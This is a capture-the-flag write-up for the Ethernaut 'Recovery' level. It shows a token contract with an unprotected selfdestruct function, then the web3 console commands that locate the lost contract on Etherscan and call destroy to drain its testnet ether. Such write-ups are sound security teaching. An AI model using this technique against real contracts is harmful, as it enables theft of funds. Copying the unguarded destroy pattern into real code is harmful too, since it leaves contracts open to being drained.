

# 17 - Recovery

## Challenge

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent 0.001 ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the 0.001 ether from the lost contract address.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

## Walkthrough

This is a simple challenge. Basically, we need to retrieve the funds from the lost address of contract created using `Recovery`'s first transaction. As a CTF player, we instantly think of OSINT the lost address on `EtherScan`. After that, we can just call `destroy` on the lost address to retrieve the funds.

```js
> await contract.address
'0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E'
```

Now we can go to [https://goerli.etherscan.io/address/0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E](https://goerli.etherscan.io/address/0x2F5CE6B3fE9F11Aa8a251Fb2E609EE29f2fE603E), in "Internal Transactions" tab, click into [Contract Creation](https://goerli.etherscan.io/address/0x4eb642b98fb0f1dcd939aad76e3bffe89b54028b#internaltx) and we will see the lost address in "Internal Transactions" tab.



Now we utilize `web3` to call `destroy` on the lost address from `player` account. We can of course use `cheb3` but I find browser console more convenient in this case.

```js
> functionSignature = {
    name: 'destroy',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_to'
        }
    ]
}
{name: 'destroy', type: 'function', inputs: Array(1)}
> params = [player]
['0x0b26C24d538e3dfF58F7c733535e65a6674FB3aB']
> data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
'0x00f55d9d0000000000000000000000000b26c24d538e3dff58f7c733535e65a6674fb3ab'
> await web3.eth.sendTransaction({from: player, to: '0x4eb642b98Fb0F1dcD939aAD76e3BffE89B54028b', data})
{blockHash: '0xb4df2dc434696f11fdb1f21f4d13044c41ebffda291f53bd81949a5caf8cc155', blockNumber: 9225229, contractAddress: null, cumulativeGasUsed: 1045157, effectiveGasPrice: 2500000013, …}
```

Finally, submit the instance to pass the level.

## Afterword

Intended of course, is not this. Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Read [this walkthrough](https://medium.com/coinmonks/ethernaut-lvl-18-recovery-walkthrough-how-to-retrieve-lost-contract-addresses-in-2-ways-aba54ab167d3) for this approach.